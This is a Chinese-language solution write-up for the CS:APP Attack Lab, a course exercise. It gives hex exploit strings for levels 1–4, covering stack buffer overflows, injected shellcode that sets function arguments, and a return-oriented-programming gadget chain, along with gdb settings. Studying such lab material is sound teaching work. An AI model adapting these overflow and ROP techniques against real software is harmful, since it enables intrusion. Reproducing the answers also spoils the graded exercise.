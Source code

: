 # Attack Lab

- [README](https://csapp.cs.cmu.edu/3e/README-attacklab)
- [ASCII Table](https://www.asciitable.com/)
- [writeup](./attacklab.pdf) 

## Level 1

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch1` 函数。

通过 `objdump` 获 `GDB` 可以得到 touch1 函数的首地址为 `0x00000000004017c0`。

根据 `getbuf` 函数的汇编代码可以看出该函数的缓冲区大小为 `0x28`，可以判定只要输入字符串超过 `40(0x28)` bytes 即可实现缓冲区溢出，从而覆盖 `getbuf` 函数的返回地址。

``` asm
0x00000000004017a8 <+0>: sub    $0x28,%rsp
0x00000000004017ac <+4>: mov    %rsp,%rdi
0x00000000004017af <+7>: callq  0x401a40 <Gets>
0x00000000004017b4 <+12>:  mov    $0x1,%eax
0x00000000004017b9 <+17>:  add    $0x28,%rsp
0x00000000004017bd <+21>:  retq
```

可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
c0 17 40 00 00 00         /* The address of touch1 */
```

.gdbinit 配置：

``` GDB
b *0x00000000004017b4
run -q < ./input.txt
x/xg 0x5561dca0
x/6xg $rsp
x/xg $rsp+0x28
```

## Level 2

目标是通过缓冲区溢出的方式令 `getbuf` 函数返回至 `touch2` 函数，并且 `touch2` 函数的入参必须是 `0x59b997fa`（cookie.txt）。

根据 Level 1，可如下构造输入令 `getbuf` 函数返回至 `touch2` 函数。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
ec 17 40 00 00 00
```

通过下面汇编代码将 `touch2` 函数的入参设置为 `0x59b997fa`。

``` asm
0: bf fa 97 b9 59        mov    $0x59b997fa,%edi
5: 48 83 c4 10           add    $0x10,%rsp
9: c3                    retq
```

最终可以构造如下题解通过此题目。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
a8 dc 61 55 00 00 00 00   /* The address of the following asm code */
bf fa 97 b9 59            /* mov    $0x59b997fa,%edi */ 
48 83 c4 10               /* add    $0x10,%rsp */
c3                        /* ret */ 
00 00 00 00 00 00         /* Padding 0 */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```

.gdbinit 配置：

```
b *0x00000000004017b9
run -q < ./input.txt
x/10xg $rsp
```

## Level 3

可以构造如下题解通过此题目，关键是让 `touch3` 函数的地址小于 cookie 地址，这样后续函数对栈的操作不会覆盖 cookie。

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
fa 18 40 00 00 00 00 00     /* The address of touch3 */
a8 dc 61 55 00 00 00 00     /* The address of the following asm code */
bf b8 dc 61 55              /* mov    $0x5561dcb8,%edi */ 
48 83 ec 10                 /* sub    $0x10,%rsp */
c3                          /* ret */ 
00 00 00 00 00 00           /* Padding 0 */
35 39 62 39 39 37 66 61     /* cookie */
```

## Level 4

```
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
61 62 63 64 61 62 63 64
cc 19 40 00 00 00 00 00   /* The address of asm code (0x4019cc): popq %rax (58 90 c3) */
fa 97 b9 59 00 00 00 00   /* cookie */
c6 19 40 00 00 00 00 00   /* The address of asm code (0x4019c6): movl %eax,%edi (89 c7 90 c3) */
ec 17 40 00 00 00 00 00   /* The address of touch2 */
```